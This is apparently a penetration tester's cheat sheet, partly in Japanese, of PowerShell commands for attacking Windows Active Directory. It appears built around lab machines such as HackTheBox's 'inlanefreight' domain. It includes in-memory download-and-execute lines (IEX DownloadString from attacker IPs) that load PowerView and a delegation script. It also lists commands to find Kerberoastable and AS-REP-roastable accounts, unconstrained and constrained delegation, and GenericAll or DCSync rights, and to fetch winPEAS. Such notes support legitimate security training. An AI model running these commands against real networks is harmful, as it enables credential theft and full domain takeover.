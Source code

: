 
Ghost<br/>
https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/Get-ConstrainedDelegation.ps1
```powershell
cd /usr/share/windows-resources/powersploit/Recon/
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.37/PowerView.ps1')

# cmd
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion
Get-DomainComputer -Properties dnshostname,operatingsystem,lastlogontimestamp,useraccountcontrol
Get-NetSession -Verbose -ComputerName web04 

Get-LocalGroupMember Administrators
Find-LocalAdminAccess
Find-DomainUserLocation
Invoke-UserHunter
Get-NetUser -SPN | select samaccountname,serviceprincipalname

# discription
Get-DomainUser -Properties samaccountname,description | Where {$_.description -ne $null}
# AS-REP-roastable
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
# Kerberoastable
Get-DomainUser -SPN -Properties samaccountname,serviceprincipalname,memberof
Invoke-Kerberoast

# Delegation 
## 制約なし
Get-DomainComputer -Unconstrained -Properties dnshostname,useraccountcontrol
Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)" 
## 制約ある
Get-DomainUser -TrustedToAuth -Properties samaccountname,useraccountcontrol,memberof
Get-DomainComputer -TrustedToAuth | select -Property dnshostname,useraccountcontrol,msds-allowedtodelegateto
## Ghost
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.15.96/Get-ConstrainedDelegation.ps1')
Get-ConstrainedDelegation -CheckOrphaned

# GenericAll to User
$geneall = Get-ObjectAcl -Identity "UserName" | ?{$_.ActiveDirectoryRights -eq "GenericAll"} | Select-Object -ExpandProperty SecurityIdentifier | Select -ExpandProperty value
Convert-SidToName $geneall

# DCSync
$dcsync = Get-ObjectACL "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')} | Select-Object -ExpandProperty SecurityIdentifier | Select -ExpandProperty value
Convert-SidToName $dcsync

# DACL
$userSID = (Get-DomainUser -Identity own_user).objectsid
Get-DomainObjectAcl -Identity target_user | ?{$_.SecurityIdentifier -eq $userSID}
```
### winPEAS
```powershell
# on nc.exe
cd /usr/share/peass/winpeas
iwr -Uri http:// -Outfile winPEASany.exe
# on powershell
iwr -Uri http:// -Outfile winPEAS.bat
```